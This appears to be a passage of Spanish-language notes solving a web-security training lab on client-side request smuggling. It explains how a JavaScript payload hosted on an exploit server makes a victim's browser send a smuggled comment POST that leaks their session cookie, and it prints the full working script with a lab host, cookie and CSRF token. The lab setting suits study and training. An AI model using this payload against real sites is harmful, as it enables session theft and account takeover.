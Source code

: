 En esta última parte, empaquetamos todo el ataque dentro de un payload JavaScript alojado en el servidor de explotación. El script desencadena una petición maliciosa con una petición fragmentada dentro del cuerpo, seguida de una solicitud controlada a /capture-me.

Una vez entregado a la víctima, su navegador ejecuta el código y realiza las peticiones necesarias que provocan la filtración de su cookie de sesión en el área pública del sitio. Extraemos esta información y usamos la cookie robada para acceder a su cuenta y resolver el laboratorio con éxito.

Solucion

el script bueno es este 
(<script>
  var smuggledRequest = [
    "POST /en/post/comment HTTP/1.1",
    "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
    "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
    "Content-Type: application/x-www-form-urlencoded",
    "Content-Length: 900",
    "",
    "csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&comment=smuggled"
  ].join("\r\n");

  fetch("https://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
    method: "POST",
    body: smuggledRequest,
    mode: "no-cors",
    credentials: "include"
  });
</script>)
![Pasted_image_20250812221322.png](Imagenes/Pasted_image_20250812221322.png)
Aqui lo vemos reflejado
![Pasted_image_20250812221356.png](Imagenes/Pasted_image_20250812221356.png)
copiamos y pegamos en almacenamiento
![Pasted_image_20250812221507.png](Imagenes/Pasted_image_20250812221507.png)
![Pasted_image_20250812221531.png](Imagenes/Pasted_image_20250812221531.png)
